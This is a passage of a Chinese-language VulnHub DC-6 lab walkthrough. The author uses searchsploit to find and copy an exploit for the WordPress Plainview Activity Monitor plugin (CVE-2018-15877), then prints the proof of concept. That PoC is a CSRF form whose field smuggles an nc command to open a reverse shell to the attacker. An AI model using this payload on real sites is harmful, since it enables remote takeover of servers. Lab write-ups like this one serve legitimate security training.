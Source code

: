 有一个命令执行的exploit，我们在kali里面searchsploit一下

```
┌──(root㉿kali)-[~/Desktop/vulnhub/DC-6]
└─# searchsploit Activity Monitor
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Activity Monitor 2002 2.6 - Remote Denial of Service                              | windows/dos/22690.c
RedHat Linux 6.0/6.1/6.2 - 'pam_console' Monitor Activity After Logout            | linux/local/19900.c
WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command In | php/webapps/45274.html
WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE | php/webapps/50110.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

有一个命令执行的exploit，将它保存到当前目录

```
┌──(root㉿kali)-[~/Desktop/vulnhub/DC-6]
└─# searchsploit -m php/webapps/45274.html
  Exploit: WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Injection
      URL: https://www.exploit-db.com/exploits/45274
     Path: /usr/share/exploitdb/exploits/php/webapps/45274.html
    Codes: CVE-2018-15877
 Verified: True
File Type: HTML document, ASCII text
Copied to: /root/Desktop/vulnhub/DC-6/45274.html
```

我们先看一下poc

```
PoC:
-->

<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -nlvp 127.0.0.1 9999 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```
